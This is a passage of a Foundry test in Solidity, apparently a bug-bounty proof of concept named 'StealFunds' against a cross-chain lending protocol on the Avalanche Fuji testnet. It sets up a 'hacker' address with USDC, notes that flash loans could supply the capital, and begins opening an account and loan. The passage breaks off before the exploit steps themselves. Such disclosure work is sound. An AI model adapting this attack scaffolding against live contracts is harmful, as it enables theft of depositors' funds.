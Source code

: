```solidity
interface ILoanManager {
    struct UserLoanCollateral {
        uint256 balance; 
        uint256 rewardIndex;
    }

    struct UserLoanBorrow {
        uint256 amount; 
        uint256 balance; 
        uint256 lastInterestIndex;
        uint256 stableInterestRate; 
        uint256 lastStableUpdateTimestamp; 
        uint256 rewardIndex;
    }

    function getUserLoan(bytes32 loanId) external view returns (
        bytes32,
        uint16,
        uint8[] memory,
        uint8[] memory,
        UserLoanCollateral[] memory,
        UserLoanBorrow[] memory
    );
}

contract FolksPOC_StealFunds is Test {
    uint256 avaxTestnetFork;

    string AVAX_FUJI_RPC_URL = vm.envString("AVAX_FUJI_RPC_URL");

    address constant USDC = 0x5425890298aed601595a70AB815c96711a31Bc65;

    address constant HUB_USDC_POOL = 0x1968237f3a7D256D08BcAb212D7ae28fEda72c34;

    address constant HUB = 0xaE4C62510F4d930a5C8796dbfB8C4Bc7b9B62140;

    address constant SPOKE_COMMON = 0x6628cE08b54e9C8358bE94f716D93AdDcca45b00;

    address constant SPOKE_CIRCLE_TOKEN = 0x89df7db4af48Ec7A84DE09F755ade9AF1940420b;

    function setUp() public {
        avaxTestnetFork = vm.createFork(AVAX_FUJI_RPC_URL);

        vm.selectFork(avaxTestnetFork);
    }

    function testStealFunds() public {
        // --- arbitrary block height for testing purposes --- //
        vm.rollFork(35069819);

        // --- set up hacker --- // 
        // hacker address
        address hacker = address(0x69420);
        
        // give hacker some starting usdc (can also leverage flashloan for initial capital requirement)
        uint256 hackerBalBefore = 100e6;
        deal(USDC, hacker, hackerBalBefore);

        // --- hacker first creates account and loan --- // 
        bytes32 accountId = bytes32(uint256(1111));
        bytes32 loanId = bytes32(uint256(2222));
        uint16 loanTypeId = 2;
```